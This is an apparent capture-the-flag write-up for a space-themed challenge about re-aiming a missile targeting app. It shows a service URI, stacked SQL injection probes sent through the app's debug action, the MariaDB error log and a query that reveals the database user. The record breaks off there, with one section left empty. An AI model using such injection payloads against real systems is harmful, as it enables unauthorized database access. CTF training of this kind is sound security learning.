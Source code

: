 ## Objective
Thwart Jack's evil plan by re-aiming his missile at the Sun.

## Solution

#### Enable the missile targetting system app and get the directory service URI

```
....
INFO: URI: maltcp://10.1.1.1:1025/missile-targeting-system-Directory
```
#### Connect to the Parameter Service


#### Injecting SQL Queries

```
;USER();
```

````
[ WARN] (ActionsExecutor-thread-2) Error: 1064-42000: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.951 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action error: java.sql.SQLSyntaxErrorException: (conn=676) You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'USER()' at line 1
2023-12-28 16:17:33.957 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
WARNING: Debug action query: SELECT VERSION();USER();
````

```
;SELECT USER();
```
```
USER(): targeter@172.18.0.3 | 
```
